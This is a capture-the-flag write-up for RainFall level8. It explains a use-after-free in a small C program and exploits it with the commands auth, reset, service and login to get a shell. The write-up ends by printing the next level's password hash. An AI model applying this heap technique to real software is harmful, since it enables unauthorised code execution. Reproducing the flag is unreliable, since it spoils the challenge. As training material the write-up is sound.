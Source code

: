 From the source code, we can see something interesting:
```c
if (strncmp(buffer, "reset", 4) == 0) {
	if (ptr1) {
		free(ptr1);
	}
}
```

The `ptr1` it's not set to `NULL` avec it was `free`. This could lead to `double free` vulnerability. But also,
we can abuse of that pointer retention to set the data we want into the `ptr1`.

First of all, there is a summary of what each commands are doing:
- `auth`: Copy our input buffer in a 4 bytes allocated memory (`ptr1`), if it's length is not greater than 30.
- `reset`: Free the `ptr1` pointer, but don't change it to `NULL`.
- `service`: `strdup` our input without any size limitation.
- `login`: Check if the 4 bytes at the position 32 are not equals to `0`. And if it's the case,
trigger a shell.

What we can do to exploit the mecanism of `reset` is:
1. Allocate the buffer with `auth a`. This will set a pointer to `ptr1`.
2. Call `reset` that'll free the memory allocated with `auth`, but not reset the pointer.
3. Call `service` with a 32 bytes long string. Thanks to the `strdup` that'll call
`malloc`, it'll take again the address sent to `ptr1` for the step 1.
4. Now, both `ptr1` and `ptr2` have the same pointer, so with the same content,
and without any length restriction. We can call `service` that'll check the 32th byte of the string,
and see that it's not 0.

```sh
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth a
0x804a008, (nil) 
reset
0x804a008, (nil) 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018 
login
$ cd ../level9/
$ cat .pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```